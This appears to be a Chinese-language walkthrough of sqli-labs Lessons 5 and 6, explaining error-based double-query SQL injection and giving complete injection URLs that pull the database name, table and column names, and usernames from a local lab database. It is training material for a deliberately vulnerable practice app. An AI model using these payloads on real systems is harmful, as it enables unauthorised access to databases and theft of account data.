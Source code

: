 # Lab5 -- Double Injection - Single Quotes

+ 输入`?id=1`没有任何数据显示在网页上，只有一句`You are in...`，我要的数据啊喂 -- 哦对了，这就是盲注，网页只会返回对或错之类的信息，我们要的数据库信息都不会显示在前端
+ 这里是双注入的原理解释链接
  + https://blog.csdn.net/lixiangminghate/article/details/80466257
  + https://mochazz.github.io/2017/09/23/Double_%20SQL_Injection/#0x01-%E5%8F%8C%E6%9F%A5%E8%AF%A2这个链接更好一些
+ 双注入原理：count聚合函数（聚合说的这么高端，其实就是一个count的过程罢了）遇到分组函数会报错，显示部分数据库内容 -- 存在几率显示

- [x] 为什么会存在几率触发呢? -- 观察报错信息如下图，这是由于group_key在排序的时候出现了排序对象出现了重合（小声逼逼，为什么出现重合会报错呢？这可能就是sql数据库设计之初存在的漏洞把）

![1](.\images\1.png)

+ 基础解释：
  + random()函数生成大于0小于1的数
  + floor()向下取整
  + count()聚合函数 -- 返回当前表的所有记录数
  + concat()用来链接字符串

+ 实战

  + 输入?id=1‘会报错

  ```mysql
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
  ```
  
+ 然并卵，这时候数据库搜索出的结果都不显示在网页上
  
  + 双注入 -- 把我们想得到的信息放到报错信息中

1. 得到自己当前数据库名

```mysql
http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(":",(select database()),floor(rand(0)*2)) as a from information_schema.columns group by a --+
```

![2](.\images\2.png)

2. 得到当前数据库的数据表们 -- 这里只能通过limit一个一个查询

```mysql
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),concat_ws(":",(select table_name from information_schema.tables where table_schema="security" LIMIT 3,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
LIMIT 从0，1到3，1得到emails，referers，uagents和users
```

![3](.\images\3.png)

3. 选择账户相关的数据表，得到其的字段名称-- 这里只能通过limit一个一个查询

```mysql
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),concat_ws(":",(select column_name from information_schema.columns where table_schema="security" and table_name="users" LIMIT 0,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
得到id,username,password三个字段
```

![4](.\images\4.png)

4. 根据字段名称在数据表中查询具体数据 -- 这里只能通过limit一个一个查询

```mysql
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),concat_ws(":",(select username from security.users LIMIT 0,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
```

![5](.\images\5.png)

+ 当然，以上的limit一个一个查询太慢了，可以考虑用python来帮我们做这件事情，参考了https://mochazz.github.io/2017/09/23/Double_%20SQL_Injection/#0x01-%E5%8F%8C%E6%9F%A5%E8%AF%A2这份链接，写出python脚本进行sql注入

+ 发现了一个彩蛋 -- 输入以下代码的时候报错同样可以找出部分信息

```
http://localhost/sqli-labs-master/Less-5/
?id=0' union select 1,count(*),count_ws(":",(select database()),floor(random(0)*2)) as a from information_schema.columns group by a --+
```

![6](.\images\6.png)

# Lab6 -- Double Injection -- Double Quotes

+ 流程跟Lab5是一样的，除了单引号变为了双引号，这里不多赘述

```
http://localhost/sqli-labs-master/Less-6/
?id=0" union select 1,count(*),concat_ws(":",(select username from security.users LIMIT 0,1),floor(rand(0)*2)) as a from information_schema.columns group by a --+
```

